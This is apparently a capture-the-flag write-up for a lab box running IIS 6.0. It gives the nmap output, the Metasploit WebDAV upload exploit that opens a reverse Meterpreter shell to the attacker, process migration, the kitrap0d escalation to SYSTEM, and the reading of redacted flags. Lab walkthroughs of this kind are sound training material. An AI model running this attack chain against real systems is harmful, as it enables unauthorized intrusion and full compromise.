

Target: 10.10.10.15

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.10.15  

Nmap scan report for 10.10.10.15
Host is up (0.034s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Error
| http-webdav-scan: 
|   Server Date: Mon, 17 May 2021 17:16:40 GMT
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   WebDAV type: Unknown
|   Server Type: Microsoft-IIS/6.0
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

checking index



### Findings:Looking for attack vectors

Exploit outdated Microsoft-IIS/6.0.


## Foothold:

Metasploit
```
$ msfconsole
```

searching for microsoft iis exploits
```
search Microsoft IIS - WebDav

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                 ---------------  ----       -----  -----------
   0  exploit/windows/iis/ms03_007_ntdll_webdav            2003-05-30       great      Yes    MS03-007 Microsoft IIS 5.0 WebDAV ntdll.dll Path Overflow                                                                               
   1  exploit/windows/ssl/ms04_011_pct                     2004-04-13       average    No     MS04-011 Microsoft Private Communications Transport Overflow
   2  exploit/windows/iis/iis_webdav_upload_asp            2004-12-31       excellent  No     Microsoft IIS WebDAV Write Access Code Execution
   3  exploit/windows/iis/iis_webdav_scstoragepathfromurl  2017-03-26       manual     Yes    Microsoft IIS WebDav ScStoragePathFromUrl Overflow

use exploit/windows/iis/iis_webdav_upload_asp
set RHOSTS 10.10.10.15
set LHOST tun0
run
```

```
meterpreter > getuid

[-] stdapi_sys_config_getuid: Operation failed: Access is denied.
```

migrating to a user PID
```
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System
 140   1088  cidaemon.exe
 228   1088  cidaemon.exe
 272   4     smss.exe
 324   272   csrss.exe
 348   272   winlogon.exe
 396   348   services.exe
 408   348   lsass.exe
 596   396   svchost.exe
 684   396   svchost.exe
 740   396   svchost.exe
 768   396   svchost.exe
 804   396   svchost.exe
 940   396   spoolsv.exe
 968   396   msdtc.exe
 1088  396   cisvc.exe
 1136  396   svchost.exe
 1184  396   inetinfo.exe
 1220  396   svchost.exe
 1332  396   VGAuthService.exe
 1408  396   vmtoolsd.exe
 1460  396   svchost.exe
 1600  396   svchost.exe
 1736  396   alg.exe
 1796  596   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.ex
                                                                             e
 1916  396   dllhost.exe
 2120  596   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata
                                                                             .exe
 2184  1460  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 2380  596   wmiprvse.exe
 2428  348   logon.scr
 3060  2184  svchost.exe        x86   0                                      C:\WINDOWS\Temp\rad9869B.tmp\svchost
                                                                             .exe
 3508  804   HelpSvc.exe
 4088  1088  cidaemon.exe

meterpreter > migrate 1796

[*] Migrating from 3060 to 1796...
[*] Migration completed successfully.
```

```
meterpreter > getuid

Server username: NT AUTHORITY\NETWORK SERVICE
```


## Priv Escalations:

enumerating using local exploit suggester
```
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 37 exploit checks are being tried...
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```

trying exploits
```
meterpreter > bg

[*] Backgrounding session 1...

use exploit/windows/local/ms10_015_kitrap0d
set SESSION 1
set LHOST tun0
set LPORT 4445
run
```

```
meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
```

```
meterpreter > cd C:\\"Documents and Settings"\\Lakis\\Desktop

meterpreter > cat user.txt

<redacted>

meterpreter > cd C:\\"Documents and Settings"\\Administrator\Desktop

meterpreter > cat root.txt

<redacted>
```